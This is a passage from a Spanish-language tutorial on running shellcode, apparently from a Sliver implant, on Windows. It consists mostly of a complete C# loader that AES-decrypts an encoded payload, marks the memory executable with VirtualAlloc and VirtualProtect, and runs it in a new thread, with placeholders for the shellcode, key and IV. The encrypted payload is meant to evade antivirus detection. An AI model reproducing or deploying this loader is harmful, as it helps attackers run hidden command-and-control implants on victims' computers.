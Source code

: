 Entonces, con nuestro shellcode, sólo haría falta copiarlo, e implementarlo en algún cargador que tengamos, En mi caso, quería implementarlo con :

```cs
using System;
using System.Linq;
using System.Security.Cryptography;
using System.Runtime.InteropServices;

namespace SliverExec
{
    internal class Program
    {
        //<Imports>

        static void Main(string[] args)
        {
            string bufEnc = "<ShellCodeCodificado>";

            Aes aes = Aes.Create();
            byte[] key = new byte[16] { <Clave 16 Bytes> };
            byte[] iv = new byte[16] { <IV 16 Bytes> };
            ICryptoTransform decryptor = aes.CreateDecryptor(key, iv);

            byte[] buf;
            using (var msDecrypt = new System.IO.MemoryStream(Convert.FromBase64String(bufEnc)))
            {
                using (var csDecrypt = new CryptoStream(msDecrypt, decryptor, CryptoStreamMode.Read))
                {
                    using (var msPlain = new System.IO.MemoryStream())
                    {
                        csDecrypt.CopyTo(msPlain);
                        buf = msPlain.ToArray();
                    }
                }
            }

            IntPtr lpStartAddress = VirtualAlloc(IntPtr.Zero, (UInt32)buf.Length, 0x1000, 0x04);

            Marshal.Copy(buf, 0, lpStartAddress, buf.Length);

            UInt32 lpflOldProtect;
            VirtualProtect(lpStartAddress, (UInt32)buf.Length, 0x20, out lpflOldProtect);

            UInt32 lpThreadId = 0;
            IntPtr hThread = CreateThread(0, 0, lpStartAddress, IntPtr.Zero, 0, ref lpThreadId);

            WaitForSingleObject(hThread, 0xffffffff);
        }
    }
}

```

